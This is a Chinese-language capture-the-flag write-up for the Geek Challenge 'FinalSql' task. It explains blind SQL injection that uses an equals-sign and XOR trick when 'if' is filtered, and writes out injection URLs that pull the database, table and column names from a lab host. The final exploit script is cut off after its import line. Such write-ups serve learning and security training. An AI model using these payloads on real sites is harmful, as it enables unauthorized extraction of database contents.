


极客大挑战FinalSql
十一月 19, 2020
1.考点
盲注,学习到了新的姿势，当我们的if被过滤的时候，可以通过^的方式来操作
- ?id=1=(表达式)=1
- ?id=1^(表达式)^1
^ 在mysql当中代表的是位异或的意思，呃？百度了一下大概明白了一些
两个数相同得0，不同得1；那我们进一步拓展思路，也就是说两个表达式相同的时候就会返回1，不同的时候就会返回0
拓展思路之后可以得到如下结果：

感觉还是用等号比较好理解啊
当两个=号夹在一起的时候

条件成立的时候就返回前面的判断结果，不成立的话就返回全部的结果了。
于是构造注入语句：
1 | http://92644a8a-ea2e-486b-baa0-eedd0947f835.node3.buuoj.cn/search.php?id=1=(ascii(substr(database(),1,1))>102)=1 |
得到数据库的名字：geek
接下来注入表名：
1 | http://92644a8a-ea2e-486b-baa0-eedd0947f835.node3.buuoj.cn/search.php?id=1=(ascii(substr(select(group_concat(table_name)from(information_schema.tables) where(table_schema)=database()),1,1))>102)=1 |
1 | 1=(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),1,1))>1)=1 |
得到表名：
1 | F1naI1y,Flaaaaag |
注入字段名：
id,username,password
flag在F1naI1y里面
最终exp：
1 | import requests, string, sys |
得到答案：
查看评论